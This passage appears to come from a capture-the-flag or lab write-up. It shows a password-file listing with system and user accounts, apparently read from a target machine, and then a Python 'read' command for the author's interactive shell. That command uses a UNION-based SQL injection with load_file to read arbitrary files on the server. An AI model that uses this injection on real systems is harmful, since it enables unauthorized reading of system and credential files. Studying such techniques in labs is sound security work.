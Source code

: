 ```
_dhcp:*:77:77:DHCP programs:/var/empty:/sbin/nologin
_mopd:*:78:78:MOP Daemon:/var/empty:/sbin/nologin
_tftpd:*:79:79:TFTP Daemon:/var/empty:/sbin/nologin
_rbootd:*:80:80:rbootd Daemon:/var/empty:/sbin/nologin
_ppp:*:82:82:PPP utilities:/var/empty:/sbin/nologin
_ntp:*:83:83:NTP Daemon:/var/empty:/sbin/nologin
_ftp:*:84:84:FTP Daemon:/var/empty:/sbin/nologin
_ospfd:*:85:85:OSPF Daemon:/var/empty:/sbin/nologin
_hostapd:*:86:86:HostAP Daemon:/var/empty:/sbin/nologin
_dvmrpd:*:87:87:DVMRP Daemon:/var/empty:/sbin/nologin
_ripd:*:88:88:RIP Daemon:/var/empty:/sbin/nologin
_relayd:*:89:89:Relay Daemon:/var/empty:/sbin/nologin
_ospf6d:*:90:90:OSPF6 Daemon:/var/empty:/sbin/nologin
_snmpd:*:91:91:SNMP Daemon:/var/empty:/sbin/nologin
_ypldap:*:93:93:YP to LDAP Daemon:/var/empty:/sbin/nologin
_rad:*:94:94:IPv6 Router Advertisement Daemon:/var/empty:/sbin/nologin
_smtpd:*:95:95:SMTP Daemon:/var/empty:/sbin/nologin
_rwalld:*:96:96:rpc.rwalld:/var/empty:/sbin/nologin
_nsd:*:97:97:NSD Daemon:/var/empty:/sbin/nologin
_ldpd:*:98:98:LDP Daemon:/var/empty:/sbin/nologin
_sndio:*:99:99:sndio privsep:/var/empty:/sbin/nologin
_ldapd:*:100:100:LDAP Daemon:/var/empty:/sbin/nologin
_iked:*:101:101:IKEv2 Daemon:/var/empty:/sbin/nologin
_iscsid:*:102:102:iSCSI Daemon:/var/empty:/sbin/nologin
_smtpq:*:103:103:SMTP Daemon:/var/empty:/sbin/nologin
_file:*:104:104:file privsep:/var/empty:/sbin/nologin
_radiusd:*:105:105:RADIUS Daemon:/var/empty:/sbin/nologin
_eigrpd:*:106:106:EIGRP Daemon:/var/empty:/sbin/nologin
_vmd:*:107:107:VM Daemon:/var/empty:/sbin/nologin
_tftp_proxy:*:108:108:tftp proxy daemon:/nonexistent:/sbin/nologin
_ftp_proxy:*:109:109:ftp proxy daemon:/nonexistent:/sbin/nologin
_sndiop:*:110:110:sndio privileged user:/var/empty:/sbin/nologin
_syspatch:*:112:112:syspatch unprivileged user:/var/empty:/sbin/nologin
_slaacd:*:115:115:SLAAC Daemon:/var/empty:/sbin/nologin
nobody:*:32767:32767:Unprivileged user:/nonexistent:/sbin/nologin
_mysql:*:502:502:MySQL Account:/nonexistent:/sbin/nologin
lucille:*:1002:1002:,,,:/home/lucille:/bin/csh
node:*:1003:1003::/home/node:/bin/ksh
_dbus:*:572:572:dbus user:/nonexistent:/sbin/nologin
_redis:*:686:686:redis account:/var/redis:/sbin/nologin
david:*:1004:1004:,,,:/home/david:/bin/csh
john:*:1005:1005::/home/john:/bin/csh
ftp:*:1006:1006:FTP:/home/ftp:/sbin/nologin
, name: 2]

```

I’ll add a `read` command to my Python shell:

```

    def do_read(self, args):
        if len(args) == 0:
            print("[-] Usage: read [filename]")
            return
        results = self.send_connected(f"3 union select load_file('{args}'),2 from information_schema.user_privileges")
        print(results[5:-10])

```
